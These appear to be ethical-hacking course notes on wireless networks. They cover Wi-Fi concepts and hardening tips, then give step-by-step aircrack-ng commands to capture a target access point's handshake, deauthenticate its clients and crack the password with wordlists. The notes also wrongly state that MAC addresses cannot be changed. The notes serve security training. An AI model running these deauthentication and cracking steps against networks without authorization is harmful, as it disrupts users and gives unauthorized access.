 # 16 - Hacking Wireless

## Module 16 - Hacking Wireless Network

<details>

<summary>What is a Wireless Network?</summary>

A **wireless network** is a communication system that allows devices to connect and communicate with each other or access the internet without the need for physical wired connections. It relies on radio waves or other wireless signals to transmit data between devices, such as computers, smartphones, tablets, printers, and routers.

Wireless networks are commonly used in homes, businesses, and public spaces to provide convenient and flexible connectivity. They are often associated with technologies like **Wi-Fi**, which enables wireless access to the internet, and Bluetooth, which facilitates short-range connections between devices.

Subsequently, a router receives these radio signals and deciphers their content. It then proceeds to relay this information to the Internet either through a Local Area Network (LAN) or a wired Ethernet connection, such as a cable network connection.

Focusing on Wi-Fi we need to talk about this topics:

1. **Access Point (AP)**: is a device that allows wireless devices to connect to a wired network. It serves as the central hub for wireless communication, bridging the gap between wireless clients (like smartphones or laptops) and the wired local area network (LAN).
2. **MAC Address (Media Access Control Address)**: is a unique identifier assigned to network interfaces, such as Wi-Fi cards and Ethernet adapters. It is used to distinguish devices on a network and ensure that data is sent to the correct destination. MAC addresses are hardcoded into network hardware and cannot be changed.
3. **BSSID (Basic Service Set Identifier)**: is the MAC address of an individual wireless access point within a Wi-Fi network. It is used to differentiate between multiple access points that may be part of the same wireless network.
4. **ESSID (Extended Service Set Identifier)**: is the name of a Wi-Fi network. It is what you see when you scan for available Wi-Fi networks on your device. ESSIDs are used to identify and connect to specific wireless networks.
5. **Wi-Fi Channels**: are specific frequencies within the 2.4 GHz or 5 GHz radio bands that Wi-Fi networks use for communication. They are like virtual lanes on a highway, allowing multiple networks to operate without interference. Choosing the right channel can help optimize your Wi-Fi network's performance.
6. **Monitor Mode**: is a Wi-Fi card operation mode that allows it to passively listen to all traffic on a particular channel, without actively transmitting data. It's often used for network analysis, monitoring, and security purposes.
7. **Packet Injection**: is a technique that allows an attacker (or a security professional) to inject or transmit packets into a Wi-Fi network. This can be used for various purposes, including network testing, penetration testing, and security research. It can also be used maliciously to exploit vulnerabilities in wireless networks.

</details>

<details>

<summary>Wi-Fi Security</summary>

**Wi-Fi security** is essential to protect your wireless network from unauthorized access and potential security breaches. Here are some key aspects of Wi-Fi security:

1. **Encryption**: Enable strong encryption protocols, such as WPA3 (the latest and most secure standard) or WPA2, on your Wi-Fi network. Encryption ensures that the data transmitted between devices and the router is scrambled and can only be decrypted by devices with the correct encryption key.
2. **Unique and Strong Passwords**: Use strong, unique passwords for your Wi-Fi network. Avoid easily guessable passwords and consider using a passphrase that combines letters, numbers, and symbols. Change your Wi-Fi password regularly.
3. **Network Name (SSID)**: Change the default network name (SSID) of your router. A unique SSID makes it more difficult for unauthorized users to identify your network.
4. **Network Segmentation**: Separate your network into different segments, such as a guest network and a primary network. This helps isolate guest users from your primary devices.
5. **Guest Network**: If your router supports it, create a guest network for visitors. Guest networks have limited access to your primary network and can help protect your devices and data.
6. **Firmware Updates**: Keep your router's firmware up to date. Manufacturers release updates to patch security vulnerabilities. Regularly check for and install these updates.
7. **MAC Address Filtering**: Implement MAC address filtering to allow only specific devices to connect to your network. While this adds a layer of security, it can be cumbersome to manage.
8. **Disable WPS**: If your router supports Wi-Fi Protected Setup (WPS), consider disabling it. WPS can be vulnerable to brute-force attacks.
9. **Firewall**: Enable the router's built-in firewall to filter incoming and outgoing traffic. Configure it to allow only necessary services.
10. **Intrusion Detection and Prevention Systems (IDPS)**: Consider using IDPS software or appliances to monitor your network for suspicious activity and protect against intrusions.
11. **Virtual Private Network (VPN)**: Use a VPN to encrypt your internet connection, adding an extra layer of security when accessing the internet via your Wi-Fi network.
12. **Disable Remote Management**: Disable remote management of your router from the internet. This prevents unauthorized access to your router's settings.
13. **Physical Security**: Ensure physical security of your router. Place it in a secure location to prevent unauthorized physical access.
14. **Regularly Monitor Network Activity**: Regularly check the devices connected to your network and review the router's logs for any unusual activity.

</details>

## WEP/WPA/WPA2 Cracking using AIRCRACK-NG

**Aircrack-ng** is a complete suite of tools to assess WiFi network security. It focuses on different areas of WiFi security such as:

* **Monitoring**: Packet capture and export of data to text files for further processing by third party tools
* **Attacking**: Replay attacks, deauthentication, fake access points and others via packet injection
* **Testing**: Checking WiFi cards and driver capabilities (capture and injection)
* **Cracking**: WEP and WPA PSK (WPA 1 and 2).

#### Phases

1. **Capture the 4-Way Handshake with Airmon‐ng**
2. **Crack the handshake with Aircrack‐ng**
   * Brute Force
   * Dictionary

<details>

<summary>4-Way Handshake</summary>

Once you connect to a Wifi AP, You use a pre‐shared key that you enter into your mobile or laptop to connect to the Wifi access point. Once a device is connecting, it uses that password to generate a session key with the help of a process called four‐way handshake in which were parameters (not going into detail) are exchanged.

This new session key is then used for encrypted communication over Wifi.

If you capture this handshake, you can break it to reveal the password for the Wifi.

</details>

#### Phase 1 - Capture the Handshake

1. **Put your Wifi card in monitor mode** _(By default, the Wifi cards capture only that traffic which is intended for your device. By putting it in monitor mode, you are telling your Wifi card to capture all wireless traffic)._

* `iwconfig` -> Checks for existing Wifi adapterù
* `airmon‐ng start wlan0` -> Activate Monitor Mode
* iwconfig -> Check the device name

2. **Capture traffic with airodump‐ng** _(This tool captures all the traffic that your wireless adapter can see and displays information about it eg: BSSID (the MAC address of the AP), channel, speed, encryption (if any), ESSID or SSID._

* `airodump‐ng wlan0mon` -> Use your card name

3. **Now start capturing the related traffic of your target AP.**

* `airodump‐ng ‐c 6 ‐‐bssid C0:F6:C2:5E:8D:20 ‐w pass wlan0mon`

> _‐c 6 is the channel for the wireless network_&#x20;
>
> _‐‐bssid C0:F6:C2:5E:8D:20 is the access point MAC address. This eliminates extraneous traffic._
>
> _‐w pass is the file name_&#x20;
>
> _‐wlan0mon is the interface name._

* Now start capturing the related traffic of your target AP
* `airodump‐ng ‐c 6 ‐‐bssid C0:F6:C2:5E:8D:20 ‐w pass wlan0mon`

4. **Deauthenticate the Wireless clients.**

* `aireplay‐ng ‐0 100 ‐a C0:F6:C2:5E:8D:20 wlan0mon`

> ‐‐0 means deauthentication
>
> 100 is the number of deauth packets to send
>
> ‐a C0:F6:C2:5E:8D:20 is the access point MAC address
>
> ‐wlan0mon is the interface name.

5. **Look for the WPA Handshake in the Notification**

* Press CTRL + C , Once you have handshake

#### Phase 2 - Cracking password

6. **Now you can use the following command to break the password with Dictionary attack**

* aircrack‐ng ‐w /usr/share/wordlists/rockyou.txt ‐b C0:F6:C2:5E:8D:20 pass\*.cap

> ‐w rockyou.txt is the dictionary file. Kali has this inbuilt dictionary already installed
>
> Pass\*.cap is the packet file where a captured handshake is stored.

* Sometimes the password list is compressed and you may need to perform these steps to uncompress the file:`locate rockyou`
* Now uncompress the file: `gunzip /usr/share/wordlists/rockyou.txt.gz`                      `ls /usr/share/wordlists/`
* `aircrack‐ng pass*.cap ‐w /usr/share/wordlists/rockyou.txt`

**And well search/found password!!**

#### Best Alternate Wordlists Collections

* https://weakpass.com/&#x20;
* https://github.com/danielmiessler/SecLists/tree/master/Pass words/WiFi-WPA&#x20;
* https://labs.nettitude.com/blog/rocktastic/
* https://github.com/kennyn510/wpa2-wordlists

### WEP Cracking – AIRCRACK-NG

`aircrack-ng '/root/Desktop/Sample Captures/WEPcrack-01.cap'` ‘’ are not needed if there is no space in folder name

### WPA2 Cracking – AIRCRACK-NG

`aircrack-ng -a 2 -b 20:E5:2A:E4:38:00 -w /root/Desktop/Wordlists/Passwords.txt '/root/Desktop/Sample Captures/WPA2crack-01.cap'` -a 2 mode WPA2, -b bssid, -w wordlist

{% embed url="https://www.aircrack-ng.org/" %}

{% embed url="https://www.stationx.net/how-to-use-aircrack-ng-tutorial/" %}

WPA/WPA‐2 Cracking - AIRCRACK SUITE








